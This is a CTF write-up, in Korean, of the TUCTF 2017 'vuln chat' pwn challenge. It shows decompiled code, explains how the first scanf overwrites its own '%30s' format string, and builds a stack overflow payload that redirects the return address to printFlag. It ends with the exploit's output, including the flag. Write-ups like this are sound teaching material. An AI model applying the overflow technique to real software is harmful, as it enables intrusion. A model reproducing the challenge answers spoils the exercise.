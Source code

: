 # vuln chat
50 point  
  
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...  
  
nc vulnchat.tuctf.com 4141  
  
[vuln-chat](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat/vuln-chat) - md5: 5d081990e899864c9dc85b1cf255af6e  

-------

일단 실행시켜보면
```
# ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: b
djinn: Sorry. That's not good enough
```
`username`을 입력 받고 `trust` 를 받는다는 것을 알수가 있었고  
바로 바이너리 분석에 들어갔습니다.  
```
[0x08048470]> afl~printFlag
0x0804856b    1 31           sym.printFlag
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
심볼 strip 되있지는 않아서 바로 printFlag() 함수를 찾을 수 있습니다.  
bof 문제로 RET printFlag() 덮어주면 됩니다.  

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+3h] [bp-2Dh]@1
  char v5; // [sp+17h] [bp-19h]@1
  int v6; // [sp+2Bh] [bp-5h]@1
  char v7; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 0x73303325;					// "%30s"
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
처음 scanf() 는 길이가 "%30s" 로 정해져 있습니다.  
`__isoc99_scanf(&v6, &v5);`  
`v5`로부터 길이 30은 0x19-30=-5 `ebp+5` 까지 덮을 수 있으며  
`v6`, `v7`, `sfp`, `ret`의 1바이트에 영향을 줄 수가 있습니다.  
중요한 것은 `v6` 가 "%30s" 문자열 형태로 길이제한에 대한 정보를 갖고 있으며 변조가 가능하다는 것입니다.  
`v5`부터 `v6`까지의 거리는 0x19-0x5=20  
`payload = "1" * 20 + "%s"`  
  
두 번째 scanf() 는 이제 길이 제한이 풀렸습니다.  
`__isoc99_scanf(&v6, &v4);`  
`v4` 부터 RET 까지의 거리 : 0x2D+4  
0x2D+4+4=53  
`payload2 = "1" * (0x2D+4) + p32(printFlag)`  

```
# python exploit.py
[+] Opening connection to vulnchat.tuctf.com on port 4141: Done
[*] Switching to interactive mode
djinn: Sorry. That's not good enough
TUCTF{574ck_5m45h1n6_l1k3_4_pr0}
Use it wisely
[*] Got EOF while reading in interactive
$
[*] Closed connection to vulnchat.tuctf.com port 4141
```

